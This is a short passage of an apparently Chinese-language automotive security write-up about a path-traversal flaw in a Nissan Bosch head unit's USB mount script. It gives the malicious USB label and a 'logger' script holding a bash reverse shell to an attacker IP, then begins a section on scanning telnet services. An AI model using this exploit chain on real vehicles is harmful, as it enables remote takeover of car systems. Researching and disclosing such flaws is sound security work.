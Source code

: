 日产的 bosch 车机挂载恶意 U 盘的情况下，可以反弹 shell 到攻击者的服务器，存在问题的文件即 /etc/udev/scripts/mount.sh  
其中的挂载操作

```bash
result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
```

$mountdir 我们能够控制并且没有什么过滤操作，存在目录穿越漏洞  
所以构造的恶意 U 盘信息为

```bash
/etc# blkid /dev/sdb1
/dev/sdb1: LABEL="../../usr/bin" UUID="7cc162e8-93d7-1f44-bbd6-0d308f113468" TYPE="ext4"
```

在 U 盘目录下编写 logger 脚本来进行反弹 shell

```bash
root@kali:~/automotive# mount /dev/sdb1 /media/root/
root@kali:~/automotive# cd /media/root
root@kali:/media/root# cat logger
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.159.128/4444 0>&1
root@kali:/media/root# chmod +x logger
root@kali:/media/root# cd -
root@kali:~/automotive# umount /dev/sdb1
```

### 服务安全

针对车机内部的一些服务的扫描，包含但不限于以下

#### telnet

2016 年腾讯的科恩实验室在 blackhat 上针对特斯拉 Model S 进行攻击的时候，从车机 CID 打出去也用到了 Telnet 攻击，而我们仅仅需要用到 nmap 扫描

[![](assets/1701606748-384a77f9ff96e255175887734197711e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106200018-0db680c6-7c9c-1.png)
